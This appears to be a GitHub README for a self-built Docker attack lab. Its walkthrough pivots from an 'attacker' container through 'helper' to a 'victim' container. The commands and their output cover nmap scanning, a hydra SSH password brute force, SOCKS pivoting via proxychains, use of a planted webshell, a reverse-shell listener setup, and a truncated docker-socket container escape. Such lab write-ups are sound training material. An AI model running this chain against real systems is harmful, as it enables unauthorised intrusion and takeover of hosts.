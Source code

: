 # Attack Container Simple Lab
This lab is made for testing attack container with 2 vulns, whichs are "Share network namespace" and "Insecure volumn mounts"

## Architecture


## Setup
### Create secret-public ssh key pair
```bash
mkdir -p ./ssh-key ./authorized_keys
ssh-keygen -t rsa -N "" -f ./ssh-key/id_rsa
cp ./ssh-key/id_rsa.pub ./authorized_keys/authorized_keys
chmod 644 ./authorized_keys/authorized_keys
chmod -R 777 ./ssh-key
chown nobody:nogroup ./ssh-key/id_rsa
```

### Run the lab
```bash
docker-compose up -d
```

#### Access to attacker
```bash
docker exec -it attacker /bin/bash
```

## Testing
1. From container `attacker` ping `helper`:
```bash
docker exec -it attacker ping 172.16.100.11
```

2. From `attacker` ping `victim` fail:
```bash
docker exec -it attacker ping 172.16.101.11
```

## Walkthrough
From `attacker`, we attack to the `helper` which we can assume that it is a public facing server. The `helper` has the same network as `victim` (share network namespace) -> so we can abuse this and pivot in to container `victim`. Finally, the container `victim` has "Insecure volumn mounting" vulnerability so we can escape the container and control the host.

### Share network namespace:
First, access the container `attacker`:
```bash
docker exec -it attacker /bin/bash
```

Next, we try to ping to `helper` to check the connection
```bash
root@attacker:/# ping helper
PING helper (172.16.100.11) 56(84) bytes of data.
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=1 ttl=64 time=0.391 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=2 ttl=64 time=0.042 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=3 ttl=64 time=0.041 ms
64 bytes from helper.acsl_attacker_net (172.16.100.11): icmp_seq=4 ttl=64 time=0.055 ms
^C
--- helper ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3083ms
rtt min/avg/max/mdev = 0.041/0.132/0.391/0.149 ms
root@attacker:/#
```

Recon the `helper`:
```bash
root@attacker:/# nmap -sC -sV -A -oA nmap/details -p `for i in $(nmap --min-rate 10000 -p- -oA nmap/allports helper | grep -E "^[0-9]" | awk -F/ '{print $1}'); do echo -n $i,; done` helper
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:27 +03
Nmap scan report for helper (172.16.100.11)
Host is up (0.00012s latency).
rDNS record for 172.16.100.11: helper.acsl_attacker_net

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 31:9d:b0:00:0c:d9:4d:22:fe:52:a2:8c:13:44:7d:f2 (ECDSA)
|_  256 0f:75:49:55:3d:14:62:00:d7:e1:89:75:1b:22:b4:a6 (ED25519)
MAC Address: BA:3A:8C:F4:DD:3E (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 3.2 - 4.9 (96%), Linux 4.15 - 5.8 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.0 - 5.5 (96%), Linux 3.4 - 3.10 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.3 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.12 ms helper.acsl_attacker_net (172.16.100.11)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.88 seconds
```

Try to brute force service `ssh` of `helper`:
```bash
root@attacker:/# hydra -l root -P /home/rock.txt ssh://172.16.100.11
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-12 21:30:49
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:1/p:14), ~1 try per task
[DATA] attacking ssh://172.16.100.11:22/
[22][ssh] host: 172.16.100.11   login: root   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-12 21:30:51
```

Initial access to `helper`:
```bash
root@attacker:/# ssh root@helper
root@helper's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 12 18:20:17 2025 from 172.16.100.10
root@helper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@helper:~#
```

`ifconfig` shows that the helper machine is part of two network families
```bash
root@helper:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.100.11  netmask 255.255.255.0  broadcast 172.16.100.255
        ether ba:3a:8c:f4:dd:3e  txqueuelen 0  (Ethernet)
        RX packets 134263  bytes 7912749 (7.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 134222  bytes 7416679 (7.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.101.10  netmask 255.255.255.0  broadcast 172.16.101.255
        ether ce:23:2b:c2:e3:39  txqueuelen 0  (Ethernet)
        RX packets 22  bytes 1688 (1.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 504 (504.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Using ping sweep to scan for alive hosts
```bash
root@helper:~# for i in $(seq 1 254); do (ping -c 1 172.16.101.${i} | grep "64 bytes from" | grep -oE "([0-9]{1,3}[\.]){3}[0-9]{1,3}" &); done;
172.16.101.1
172.16.101.10
172.16.101.11
root@helper:~#
```
We can determine that the IP 172.16.101.1 is the gateway's IP, 172.16.101.10 is `helper`'s IP, therefore the 172.16.101.11 is the victim's IP.


Back to our `attacker` machine. We are creating **dynamic port forwarding leverages the SOCKS proxy**. This will deliver all the traffic through an ssh connection, via, given port to the destination server. Here we are forwarding all the traffics to the attacker machine
```bash
root@attacker:/etc# ssh -D 9050 root@172.16.100.11 -f -N
root@172.16.100.11's password:
root@attacker:/etc#
```

We are going to use the `proxychains`. Check if the port specified in “/etc/proxychains.conf” should be the same as dynamic port. 

Then we will scan the victim's IP, which is 172.16.101.11
```bash
root@attacker:/# proxychains nmap -sT -Pn 172.16.101.11
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-12 21:56 +03
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:3389 <--socket error or timeout!
....
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.101.11:5566 <--socket error or timeout!
Nmap scan report for 172.16.101.11 (172.16.101.11)
Host is up (0.00057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```
We used the `-Pn` flag to skip host discovery. The reason why we cannot ping is that proxies do not support ICMP protocols. Their working OSI layers are different while proxychains can only proxy TCP connections.

Now we try to access the web service of `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11 -I
HTTP/1.1 200 OK
Server: nginx/1.27.5
Date: Mon, 12 May 2025 19:01:12 GMT
Content-Type: text/html
Content-Length: 18
Last-Modified: Mon, 12 May 2025 17:53:46 GMT
Connection: keep-alive
ETag: "682235aa-12"
Accept-Ranges: bytes

```

To keep this lab simple, we can assume that we have discovered the webshell in `/test.php`
```
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=echo+"hellowordl!"
```

Exploit this and get the reverse shell directly from `victim` to our `attacker` machine. First, we have to setup a remote forwarding port again and listen for reverse shell connection
```bash
root@attacker:/# ssh -R :80:172.16.100.10:80 -R :1331:172.16.100.10:1331 root@helper -N -f

root@attacker:/# nc -lvnp 1331
```

Next, we send the revershell payload to `victim`
```bash
root@attacker:/# proxychains -q curl http://172.16.101.11/test.php?cmd=e<<rev_shell_payload>>
```

Finally, we are into the `victim` machine

### Insecure volumn mounting
...
```bash
./docker -H unix:///var/run/docker.sock ps
```






